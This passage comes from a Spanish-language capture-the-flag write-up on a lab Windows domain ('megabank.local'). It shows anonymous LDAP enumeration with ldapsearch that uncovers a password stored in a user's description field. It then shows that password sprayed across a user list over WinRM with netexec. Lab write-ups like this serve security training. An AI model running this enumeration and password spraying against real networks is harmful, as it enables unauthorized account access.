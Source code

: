 ```python
simon
naoki
```

# Explotación 

Luego de intentar `Brute Force` con la herramienta `netexec` y quizás encontrar algún usuario que este haciendo uso de su mismo nombre como contraseña. Intentaremos enumerar mas el servicio `ldap`, en el cual en la descripción del usuario `Marko Novak` encontramos una contraseña.

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'Objectclass=user' -H ldap://10.10.10.169
```

![20240329162946.png](20240329162946.png)

Ejecutamos el siguiente comando solo para obtener el texto:

```python
❯ ldapsearch -x -b 'dc=megabank,dc=local' 'Objectclass=user' 'description' -H ldap://10.10.10.169
```

```python
.
.
.
# Marko Novak, Employees, MegaBank Users, megabank.local
dn: CN=Marko Novak,OU=Employees,OU=MegaBank Users,DC=megabank,DC=local
description: Account created. Password set to Welcome123!
.
.
.
```

Luego de obtener la contraseña, realizaremos `Brute Force` con los usuarios que habíamos encontrado antes.

```python
❯ netexec winrm 10.10.10.169 -u ../content/users.txt   -p 'Welcome123!'
```

![20240329170003.png](20240329170003.png)
